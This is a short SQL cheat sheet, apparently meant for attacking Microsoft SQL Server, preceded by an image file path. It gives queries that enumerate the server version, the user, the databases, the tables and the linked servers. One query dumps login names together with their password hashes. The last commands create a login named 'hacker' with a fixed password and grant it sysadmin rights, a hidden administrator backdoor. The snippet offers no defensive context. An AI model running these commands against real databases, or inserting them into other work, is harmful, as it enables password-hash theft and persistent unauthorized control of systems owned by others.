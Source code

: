 ```sql
# Get version
select @@version;
# Get user
select user_name();
# Get databases
SELECT name FROM master.dbo.sysdatabases;
# Use database
USE master

#Get table names
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
#List Linked Servers
EXEC sp_linkedservers
SELECT * FROM sys.servers;
#List users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
#Create user with sysadmin privs
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'
EXEC sp_addsrvrolemember 'hacker', 'sysadmin'
```
